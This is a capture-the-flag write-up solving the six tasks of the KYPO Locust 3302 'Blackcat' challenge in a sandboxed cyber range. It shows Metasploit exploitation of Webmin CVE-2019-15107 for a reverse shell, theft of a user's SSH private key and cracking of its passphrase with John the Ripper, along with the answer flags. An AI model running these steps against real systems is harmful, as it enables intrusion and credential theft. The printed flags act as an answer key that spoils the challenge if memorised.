


# CTF Challenge Write Up :  KYPO Locust 3302 Challenge of Blackcat

**Design Purpose** : In the previous article *[How to Deploy KYPO_CRP on OpenStack-YOGA](https://www.linkedin.com/pulse/how-deploy-kypocrp-openstack-yoga-yuancheng-liu-zmjhc)*, I introduced how to deploy KYPO CRP on your Open Stack cluster. This write-up will focus on the detailed steps of using the KYPO-CRP application and solving practical CTF questions through the KYPO Locust 3302 Challenge which used in the Blackcat CTF [Hacker and Defender Training] developed by Masaryk University’s Cybersecurity Team. 

This CTF challenge is designed as an advanced Web and Information security exam to test the CTF participants' knowledge and skills through  penetration testing workflows, web service vulnerability exploit , command injection attack and the information protection taught in Masaryk University Cybersecurity course [PV276 Seminar on Simulation of Cyber Attacks Course](https://is.muni.cz/course/fi/autumn2020/PV276) . The Locust 3302 sandbox is publicly available as part of KYPO’s open-source releases on KYPO official Gitlab Repo [MUNI-KYPO-TRAININGS / games / locust-3302 · GitLab](https://gitlab.ics.muni.cz/muni-kypo-trainings/games/locust-3302) for people to practice hands-on cyber defense and offense techniques.


```python
# Author:      Yuancheng Liu
# Created:     2024/03/20
# Version:     v_0.1.2
# License:     MIT License
# Kyppo Disclarmer: This training topic is for educational purposes only.The story is fictitious.
```

**Table of Contents** 

[TOC]

- [CTF Challenge Write Up :  KYPO Locust 3302 Challenge of Blackcat](#ctf-challenge-write-up----kypo-locust-3302-challenge-of-blackcat)
    + [Introduction](#introduction)
      - [Challenge Background Story](#challenge-background-story)
      - [Environment and Network Topology](#environment-and-network-topology)
      - [CTF Questions and Techniques](#ctf-questions-and-techniques)
    + [CTF Challenge Q1: Scan the IP Address and Ports](#ctf-challenge-q1--scan-the-ip-address-and-ports)
      - [Step 1: Get KYPO Environment SSH Access](#step-1--get-kypo-environment-ssh-access)
      - [Step 2: Nmap Find the Task1 Flag](#step-2--nmap-find-the-task1-flag)
    + [CTF Challenge Q2: Identify a Vulnerability](#ctf-challenge-q2--identify-a-vulnerability)
      - [Step 1: Use Metasploit to Find Known Vulnerabilities](#step-1--use-metasploit-to-find-known-vulnerabilities)
      - [Step 2: Identify the CVE to Find the Task2 Flag](#step-2--identify-the-cve-to-find-the-task2-flag)
    + [CTF Challenge Q3: Exploit the Vulnerability](#ctf-challenge-q3--exploit-the-vulnerability)
      - [Step 1: Launch Metasploit and Select the Exploit](#step-1--launch-metasploit-and-select-the-exploit)
      - [Step 2: Configure Exploit Options](#step-2--configure-exploit-options)
      - [Step 3: Locate the Flag from Evidence File](#step-3--locate-the-flag-from-evidence-file)
    + [CTF Challenge Q4: Find the IP Address of the Secret Server](#ctf-challenge-q4--find-the-ip-address-of-the-secret-server)
      - [Step 1:  Review the Command History](#step-1---review-the-command-history)
      - [Step 2: Identify Flag From Suspicious Activity](#step-2--identify-flag-from-suspicious-activity)
    + [CTF Challenge Q5: Access the Secret Server](#ctf-challenge-q5--access-the-secret-server)
      - [Step 1: Locate Eve’s SSH Private Key](#step-1--locate-eve-s-ssh-private-key)
      - [Step 2: Run a Dictionary Attack with ssh2john](#step-2--run-a-dictionary-attack-with-ssh2john)
    + [CTF Challenge Q6: Steal Eve's secret from the server](#ctf-challenge-q6--steal-eve-s-secret-from-the-server)
      - [Step 1: Set Correct Permissions for the Private Key](#step-1--set-correct-permissions-for-the-private-key)
      - [Step 2: Connect to the Secret Server and Locate the Flag](#step-2--connect-to-the-secret-server-and-locate-the-flag)

------

### Introduction 

Before diving into the technical details of how to solve the Locust 3302 Blackcat Challenge, I would like to acknowledge and express thanks to the CTF challenge authors — **Adam Chovanec**, **Hana Pospíšilová**, and **Peter Jaško** for designing such an engaging and thought-provoking hands on assignment for cyber security education and contest. This challenge consists of six sequential tasks, each designed to test core cybersecurity skills across multiple domains, including the penetration testing, web vulnerabilities, command injection attacks, Linux system forensics, and cryptographic password cracking.

The tasks simulate realistic attacker-defender scenarios where participants must:

- **Penetration test and web security**: Use tools such as `Metasploit` to identify vulnerabilities in a web service.
- **Command injection attack**: Exploit `CVE-2019-15107` in the `Webmin` service (`password_change.cgi`) to gain remote access command execution via a reverse shell.
- **Linux system critical information analysis**: Trace and analyze `bash command history` to extract sensitive information left by other users.
- **Encryption and decryption**: Leverage `John the Ripper (ssh2john)` to crack an SSH private key’s passphrase and gain deeper system access.

#### Challenge Background Story

Upon logging into the KYPO challenge page, participants are introduced to a narrative backdrop as shown below:



This storyline provides context for the tasks, immersing players in a **red team vs. hacker group** investigation scenario: 

>  Infosec community all over the word has been investigating hacker group Black cat. This mysterious organization has been very active in the hacker scene and is believed to be responsible for several cyber-attacks.Recently you have acquired an IP address of one of their servers. Find out who they are and what do they do. These criminals have to be stopped!"

#### Environment and Network Topology

The challenge runs on the **KYPO Cyber Range Platform** and the contest scoring uses **CTFd** , The KYPO-CRP provide one set of a multi-network environment with three interconnected VMs for each CTF participants to access from internet, the network topology is shown below:


- **Attacker VM (10.10.135.83)** – A Kali-like environment preloaded with penetration testing tools. CTF participants will use this VM to launch attacks on the target systems.

- **Web VM (172.18.1.5)** – Located in the *outside-network*, this hidden web server hosts the vulnerable **Webmin** service.

- **Client VM (10.1.17.4)** – A protected server hidden behind the “big-broker” subnet. Hackers have already transferred stolen files here, and CTF participants must uncover its existence by analyzing evidence.

This layered design mimics a **real-world penetration test**, where attackers must pivot from one compromised system to another.

#### CTF Questions and Techniques

The challenge progresses through six structured questions, requiring participants to solve them step by step, the main techniques to solve the challenge questions are: 


- **Q1 – Scan the IP address and ports**: Use **Nmap** to identify running services and discover the **Webmin** interface.
- **Q2 – Identify a vulnerability**: Employ **Metasploit** to detect a web service vulnerability and link it to a related **CVE**.
- **Q3 – Exploit the vulnerability**: Execute a **command injection exploit** against Webmin to establish a foothold.
- **Q4 – Find the secret server’s IP address**: Analyze **Linux shell history** to reveal critical clues.
- **Q5 – Access the secret server**: Crack the **SSH private key’s passphrase** using **John the Ripper**.
- **Q6 – Steal secret information**: Adjust key permissions, log into the client server, and retrieve hidden data.

Now lets go through the detailed steps to solve the six CTF challenge questions one by one. 


------

### CTF Challenge Q1: Scan the IP Address and Ports

**Question Task:**

- The participants will act as a defender to find some cyber attack action evidence of the Black cat members. 
- As one attacker has found some information from some Blackcat's document that the IP address (172.18.1.5 ) is hosting some of their service. See if the acquired IP address 172.18.1.5 leads anywhere.

#### Step 1: Get KYPO Environment SSH Access

To access the KYPO environment, we need to use the KYPO ssh chain config file to ssh login the specific VM. From the KYPO CTF challenge page, go to topic 2 – Get Access and click **Get SSH Config** button as shown below:


This downloads a file `ssh-access.zip`. Extract it, then copy the key file named `pool-id-<your_file_id>-sandbox-id-<your_sandbox_id>-user-key` in to your into your `~/.ssh` directory.

Next, log into your assigned Kali Linux VM (called **transaction**) using the following command:

```bash
ssh -F pool-id-<your file id>-sandbox-id-<your sandbox id>-user-config transaction
```

For example:


If successful, you will now have shell access to the **Kali Linux attacker VM** — the environment you will use for most of the tasks.

#### Step 2: Nmap Find the Task1 Flag

Inside your Kali home folder, you’ll find a `flag.txt` file. Opening it will display the keyword "start". Enter `start` in the challenge portal to officially begin **Task 1** Scan the IP address task page as shown below:


To discover which services are running on the target server (`172.18.1.5`), use **Nmap** to scan the service of the target VM, In this task, we use the **`-sV`** option to detect the version of running services:

```
nmap -sV 172.18.1.5
```

If you want to focus only on a specific port, you can add the **`-p <port_number>`** parameter.

Example scan:


Record the service information (Name, Version and Port ) for solving the further section questions. Based on the task description the the CTF challenge task 1 correct answer(flag) is:  **Webmin**


------

### CTF Challenge Q2: Identify a Vulnerability

**Question Task:**

- Perform penetration testing to identify vulnerabilities in the discovered web service and determine the associated **CVE** that can be used for exploitation.

#### Step 1: Use Metasploit to Find Known Vulnerabilities

From the **Nmap** scan in Task 1, we know that the target server is running **Webmin** on port **10000**:

```bash
└─$ nmap -sV 172.18.1.5
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-05 05:40 UTC
Nmap scan report for 172.18.1.5
Host is up (0.0026s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
10000/tcp open  http    MiniServ 1.920 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The version of Webmin in use is **1.920**. Our next step is to check whether this version is known to contain any security flaws.

A common approach in penetration testing is to use **SearchSploit**([usage example](https://bughacking.com/how-to-use-searchsploit-in-kali-linux/)), a tool bundled with Kali Linux that queries Exploit-DB for publicly available exploits.

Run the following command:

```
searchsploit Webmin
```


This shows several entries, with two particularly relevant to our target version:

- `Webmin 1.920 - Remote Code Execution`
- `Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)`

#### Step 2: Identify the CVE to Find the Task2 Flag

Each known vulnerability is cataloged with a **CVE (Common Vulnerabilities and Exposures)** identifier. To find the specific CVE linked to Webmin 1.920, you can:

- Use [Exploit-DB](https://www.exploit-db.com/) or [cve.mitre.org](https://cve.mitre.org/).
- Or search online for “**Webmin 1.920 Remote Code Execution**.”

Google search the content `Webmin 1.920 - Remote Code Execution` or `Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)`, this is the 1st link Google provide: https://www.acunetix.com/vulnerabilities/web/webmin-v1-920-unauhenticated-remote-command-execution/. In the link we can find the CVE (CVE-2019-15107) information: 


This vulnerability allows **unauthenticated attackers** to execute arbitrary commands remotely through a crafted request to `password_change.cgi`. See more at https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107

Fill in the flag **CVE-2019-15107** and submit to complete task 2: 


------

### CTF Challenge Q3: Exploit the Vulnerability

Question Task:

- Use the **Metasploit framework** to exploit the discovered Webmin vulnerability (**CVE-2019-15107**) with a command injection attack.

- A leaked document from a BlackCat member named *Eve* indicates that their previous hacking attempts were logged in a file named `WARNING-READ-ME.txt`, located under a user’s folder, the flag may be in the file.

- Find the **five-digit number** hidden in `/root/WARNING-READ-ME.txt` on the target server. 

  

#### Step 1: Launch Metasploit and Select the Exploit

The tool you are looking for is called Metasploit which has been pre-installed in the Kali linus. Exploits in Metasploit are ready-made scripts that automatically attack a vulnerability. They save you time during penetration testing: you do not need to program or download custom exploits, but you simply use existing attack scripts that someone created for the common vulnerabilities. Check out the tutorial at https://www.offensive-security.com/metasploit-unleashed/metasploit-fundamentals/

Start metaplot console tool with cmd: `msfconsole`, the console will be shown as below:


Then we need to search whether the metasploit provides the modules which can exploit the vulnerability point.  There is a search command in Metasploit (msfconsole) to find the correct exploit, search for available exploits related to Webmin:

```
search webmin
```

The result is shown below:


From the results, we select the exploit:

```bash
exploit/linux/http/webmin_backdoor
```

This module directly targets **CVE-2019-15107**, the command injection flaw in Webmin’s `password_change.cgi`. Activate it using:

```bash
use exploit/linux/http/webmin_backdoor
show options
```

This will display the configurable parameters needed to run the exploit.


#### Step 2: Configure Exploit Options

Based on the previous step, each activated exploit has its options -- parameters that you must set after you activated the exploit but before you run it. The parameters we used to do the vulnerability scan are host and port configuration:  

- **RHOSTS** : The target host ip address, it needs to be set to the IP address of the victim, cmd :  `set RHOSTS 172.18.1.5`.
- **RPORT** : The target host tcp port, it needs to be set to desired port number, i.e., 10000.
- **LHOST** : The source host id address, needs to be set to the machine that initiates the exploit (you), cmd:  `set LHOST 10.10.135.83`.

Now set the target host when want to do penetration with **RHOST**, set our attack Kali machine as **LHOST**, and **RPORT** the one we find in section 1 which is 10000. Then use check cmd to see whether the http web service is is vulnerable by using the **webmin_backdoor module**.  Commands:

```
Exploit target:
msf6 exploit(linux/http/webmin_backdoor) > set RHOST 172.18.1.5
RHOST => 172.18.1.5
msf6 exploit(linux/http/webmin_backdoor) > set RPORT 10000
RPORT => 10000
msf6 exploit(linux/http/webmin_backdoor) > set LHOST 10.10.135.83
LHOST => 10.10.135.83
msf6 exploit(linux/http/webmin_backdoor) > check
```

If configured correctly, Metasploit confirms that the service is vulnerable. Then, run the exploit:

```
exploit
```

Your terminal should display a **reverse shell session opened** message, as shown in the screenshot:


This means you now have shell access to the target server through the backdoor.


#### Step 3: Locate the Flag from Evidence File

With shell access, navigate and search for the suspicious file mentioned in the challenge:

```
find /root -name "WARNING-READ-ME.txt"
cat /root/WARNING-READ-ME.txt
```

The result is shown below: 


As shown above, the **user 25790**  is the flag information, enter this value into the challenge portal to complete Task 3:


**> The correct answer(flag) is:**  `25790`


------

### CTF Challenge Q4: Find the IP Address of the Secret Server

**Challenge Background:**

In previous section WARNING-READ-ME file, it is obvious that Black cat anticipated our attack and notified their members. Most of their data seem to have been deleted , but hopefully, there's still something left elsewhere. Find the IP address of the new server that they moved their files to. We're not giving up just yet!

**Question Task**:

- Learn how an attacker’s **command history** can reveal critical evidence.
- Investigate the account of **eve** (a BlackCat member) in the `/home/` directory.
- Extract the **IP address of the server** to which Eve transferred files.
- The correct flag is the **IP address of the secret server**.

#### Step 1:  Review the Command History

The hacker had to connect to the secret server from this host when they copied the data. Perhaps, some traces of the connection could remain in their homes located at the /home/ directory.

We continue from the reverse shell session obtained in Task 3. First, check Eve’s home folder for hidden files:

```shell
ls -a /home/eve
```

Among the results, we see `.bash_history`, which logs the commands previously executed by this user as show below:


Now we find the bash history file, then we can check whether there is some thing in the history with cmd:

```
less /home/eve/.bash_history
```

This reveals a series of commands left behind by the attacker as shown below:


#### Step 2: Identify Flag From Suspicious Activity

Based on the question description, the hacker Eve transferred the files to some secret server his/her home folder, so we need to find the files transfer cmd from the history, as shown below, she use the scp to the server 10.1.17.4


This provides direct evidence of where the stolen data was moved. Then fill the IP address in the text field to complete the task 4 as shown below:


**> The correct answer(flag) is:**  `10.1.17.4`


------

### CTF Challenge Q5: Access the Secret Server

**Challenge Background:**

Very well, we now have the IP of their "secret" server (10.1.17.4). But how do we get in? It is surely heavily guarded. Don't try to search for vulnerabilities, that would probably be a waste of time. Search for interesting files on the web server (172.18.1.5) you previously exploited. There might be something that will help you access the secret server.

**Question Task**:

- Find some way to crack SSH private Key’s passphrase. 

- Flag: the passphrase to a file that allows you to access the secret server.

#### Step 1: Locate Eve’s SSH Private Key

When eve was working on the web server, she authenticated to the secret server using an SSH keypair. (Password authentication is turned off.) There is a .ssh directory with a private SSH key in Eve's directory. Print it on the terminal (`cat /home/eve/.ssh/id_rsa`) and copy it to a local file on your attacker vm, so that you can crack it later.

On the compromised web server, we navigate to Eve’s home directory and check the hidden `.ssh` folder:


Here we find Eve’s private key file (`id_rsa`). We print it (`cat /home/eve/.ssh/id_rsa`) and copy the contents to a local file on our attacker VM for cracking as shown below:


The private key is protected by a passphrase. Directly using it to connect will prompt for that passphrase:

```
ssh  -i id_rsa eve@10.1.17.4
```

We need to type in eve's key protection passphrase. So you cannot use the private SSH key without a passphrase. 

#### Step 2: Run a Dictionary Attack with ssh2john

Use a password-cracking tool ssh2john on your Attacker vm to find out that passphrase. Then, you will be able to connect to the secret server. The file **ssh2john.py** is the John the Ripper and how to use it can follow this link: https://bughacking.com/how-to-crack-ssh-private-key-with-john-the-ripper/

To crack it, we first convert the key into a hash format that John the Ripper can process. This is done using the `ssh2john.py` helper script:

```shell
python ssh2john.py id_rsa > hash
```

Brute forcing an SSH key passphrase is impractical, so we use a **dictionary attack** with John the Ripper. One of the most common wordlists is `rockyou.txt`, which is available on Kali/Linux under `/usr/share/wordlists/`.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

John successfully cracks the passphrase and outputs:


The cracked passphrase is **pinkprincess**. With this, we can unlock Eve’s SSH private key and gain access to the secret server. Fill the passphrase in the page to complete task 5:


**> The correct answer(flag) is:**  `pinkprincess`


------

### CTF Challenge Q6: Steal Eve's secret from the server

**Challenge Background:**

We have successfully cracked the passphrase (`pinkprincess`) protecting Eve’s SSH private key. Now it’s time to use this key to access the secret server (`10.1.17.4`) and retrieve the sensitive information Eve tried to hide.

**Question Task**:

- Use Eve’s private key to log in to the secret server.
- Locate and extract the hidden top-secret flag.
- **Flag:** The integer value contained inside the `flag.txt` file.

#### Step 1: Set Correct Permissions for the Private Key

Change the mode of the key file to ensure the key is only accessible by the current user and ssh to login the server: 

```shell
┌──(user㉿attacker)-[~]
└─$ ls
hash  id_rsa  ssh2john.py
┌──(user㉿attacker)-[~]
└─$ chmod 0600 id_rsa
┌──(user㉿attacker)-[~]
└─$ ssh -i id_rsa eve@10.1.17.4
```

Now, log in using Eve’s private key and the cracked passphrase:


 Enter `pinkprincess` to unlock the key.

#### Step 2: Connect to the Secret Server and Locate the Flag

Once inside the server, we explore Eve’s directories. In the `/top_secret/` folder, we discover a file named `flag.txt`.


The file contains a hidden integer value. Find the flag integer 58345 and fill the flag in the Kypo page to complete task 6 as shown below:



**> The correct answer(flag) is:**  `58345`


**Now all the tasks are completed! With all six flags captured, the investigation into Black Cat’s activities has been completed, proving the defender’s ability to follow digital footprints and expose hidden threats.**


------

>  last edit by LiuYuancheng (liu_yuan_cheng@hotmail.com) by 15/08/2025 if you have any problem, please send me a message.